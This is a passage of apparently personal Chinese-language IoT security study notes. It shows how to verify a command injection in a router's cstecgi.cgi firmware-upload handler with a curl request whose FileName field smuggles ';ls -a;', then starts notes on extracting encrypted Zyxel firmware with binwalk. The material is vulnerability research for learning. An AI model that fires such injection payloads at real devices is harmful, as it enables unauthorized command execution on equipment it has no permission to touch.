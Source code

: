 因为没设置密码，所以直接空密码登录，看到跳转的 protal 复制粘贴至地址栏后访问，开 F12 拿 session id 用 curl 访问对应 cgi 程序验证漏洞

curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION\_ID=\<YOUR\_SESSION\_ID>" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'

![descript](../../.gitbook/assets/20.png)

Zyxel 设备：固件提取分析（2024/5/15）

参考资料：

[https://paper.seebug.org/3137/](https://paper.seebug.org/3137/)

[https://security.humanativaspa.it/zyxel-firmware-extraction-and-password-analysis/](https://security.humanativaspa.it/zyxel-firmware-extraction-and-password-analysis/)

固件获取：[https://support.zyxel.eu/hc/en-us/articles/360013941859-Security-Products-Firmware-Overview-and-History-Downloads-for-FLEX-ATP-USG-VPN-ZYWALL](https://support.zyxel.eu/hc/en-us/articles/360013941859-Security-Products-Firmware-Overview-and-History-Downloads-for-FLEX-ATP-USG-VPN-ZYWALL)

本次主要学习在固件被加密的情况下，获取固件。

尝试直接用 binwalk 解包，解出来一堆 .zip && .7z，解包失败。（binwalk 记得加 -r 参数，自动 delete carved file，节省空间，避免 archlinux 爆炸）

